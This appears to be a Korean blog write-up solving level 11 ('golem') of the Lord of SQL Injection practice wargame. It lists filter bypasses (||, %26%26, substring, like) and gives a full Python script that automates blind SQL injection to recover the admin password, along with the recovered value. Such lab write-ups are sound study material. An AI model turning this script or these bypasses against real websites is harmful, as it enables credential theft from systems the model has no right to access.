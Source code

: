 ```yaml
---
title: LOS - 11번 golem
category: Lord of SQL Injection
---
```


# [11] golem

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fde8A6H%2FbtrniTeLG61%2Fp8roAQzC5qnjr2AfgsXGW1%2Fimg.png">

## 풀이

이번 문제에서는

<br> 

① or/and

② substr(

③ =

<br> 

를 필터링하고 있다.

<br>

또한 근본적으로는 pw를 알아야 풀 수 있는 Blind SQLi 문제이다. (∵ addslashes) 

이전에 써먹었던 **자동화 코드**에 **필터링 우회**를 적용해주면 될 것 같다.

<br> 

먼저, 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.

<br>

```python
def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id like \"admin\" %26%26 length({param_name})>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```

<br>

① or → ||

② and → %26%26

③ = → like (문자열 일치 확인)

④ = → > (ASCII 대소 비교)

⇒ 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

<br>

```python
def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id like \"admin\" %26%26 ascii(substring({param_name},{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```

<br>

① or → ||

② and → %26%26

③ substr( → substring(

④ = → like (문자열 일치 확인)

⑤ = → > (ASCII 대소 비교)

⇒ 마찬가지로, 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

**수정된 Python 자동화 코드의 전문**은 다음과 같다.

<br>

```python
import requests

def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id like \"admin\" %26%26 length({param_name})>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id like \"admin\" %26%26 ascii(substring({param_name},{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    param_name=input("파라미터의 이름을 알려주세요:")
    
    length=check_length(url, cookie, param_name)
    print(f"👏 {param_name}의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, param_name, length)
    print(f"👏 {param_name}의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FHcecl%2FbtrnkxIU6Hk%2FwUsmDKLf63bp6zlHii4aZ0%2Fimg.png">

Blind 공격 결과, admin의 pw는 `77d6290b` 임을 알 수 있다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbHY8zw%2FbtrnkvRSuaC%2FiiZqhAuhNLq6tKpRIWSj20%2Fimg.png">
